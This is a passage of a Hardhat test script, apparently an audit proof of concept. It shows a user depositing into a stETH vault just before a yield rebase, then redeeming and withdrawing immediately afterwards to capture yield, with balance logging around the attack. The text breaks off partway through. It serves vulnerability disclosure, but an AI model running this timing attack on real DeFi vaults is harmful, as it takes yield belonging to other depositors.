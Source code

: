 ```
        await stETHMock.connect(accounts[2]).submit(accounts[2].address, {value:ethers.utils.parseEther("1000") });
        await stETHMock.connect(accounts[2]).approve(this.stETHVault.address, ethers.constants.MaxUint256)
        await stETHVault.connect(accounts[2]).depositAssetToMint(await stETHMock.balanceOf(accounts[2].address),ethers.utils.parseEther("10000"));
       
        //time passes generathing stETH yield
        await network.provider.send("evm_increaseTime", [6500])
        await network.provider.send("evm_mine")

        //user 3 balances before exploit 
        await stETHMock.connect(accounts[3]).submit(accounts[3].address, {value:ethers.utils.parseEther("100") });
        //timestamp
        const blockNumBefore = await ethers.provider.getBlockNumber();
        const blockBefore = await ethers.provider.getBlock(blockNumBefore);
        const timestampBefore = blockBefore.timestamp;
        console.log("Timestamp before the exploit: " + timestampBefore)
        //stETH balance
        const sthETHBalanceBefore = await stETHMock.balanceOf(accounts[3].address)
        console.log("sthETHBalance before the exploit: " +sthETHBalanceBefore)
        //EUSD shares
        const EUSDSharesBefore = await this.EUSDMock.sharesOf(accounts[3].address)
        console.log("EUSD shares before the exploit: " + EUSDSharesBefore)
        //EUSD balance 
        const EUSDBalanceBefore = await this.EUSDMock.balanceOf(accounts[3].address)
        console.log("EUSD balance before the exploit: " + EUSDBalanceBefore)
        //Deposited assets
        const depositedAssetBefore = await stETHVault.depositedAsset(accounts[3].address)
        console.log("Deposited assets before the exploit: " + depositedAssetBefore)
        //Borrowed amount
        const borrowedBefore = await stETHVault.getBorrowedOf(accounts[3].address)
        console.log("Borrowed amount before the exploit: " + borrowedBefore)

        //right before somene calls the rebasde function (excessIncomeDistribution) user3 deposits into the vault
        const depositedAmount = ethers.utils.parseEther("1.0")
        await stETHMock.connect(accounts[3]).approve(this.stETHVault.address, ethers.constants.MaxUint256)
        await stETHVault.connect(accounts[3]).depositAssetToMint(depositedAmount,ethers.utils.parseEther("1000.0"))

        //someone call excessIncomeDistribution causing the rebase to distribute the yield to users
        await stETHVault.connect(accounts[2]).excessIncomeDistribution(ethers.utils.parseEther("0.01"))
        console.log("Alice deposits before rebase and withdraws immediately after")

        //right after the rebase user3 redeems all the necessary tokens
        await this.configurator.connect(accounts[3]).becomeRedemptionProvider(true)
        await stETHVault.connect(accounts[3]).rigidRedemption(accounts[3].address, await stETHVault.getBorrowedOf(accounts[3].address))
        await stETHVault.connect(accounts[3]).withdraw(accounts[3].address,await stETHVault.depositedAsset(accounts[3].address));
        await stETHVault.connect(accounts[3]).excessIncomeDistribution(ethers.utils.parseEther("0.01"))

       
        //user3 balances after exploit
        //timestamp
        const blockNumAfter = await ethers.provider.getBlockNumber();
        const blockAfter = await ethers.provider.getBlock(blockNumAfter);
        const timestampAfter = blockAfter.timestamp;
```
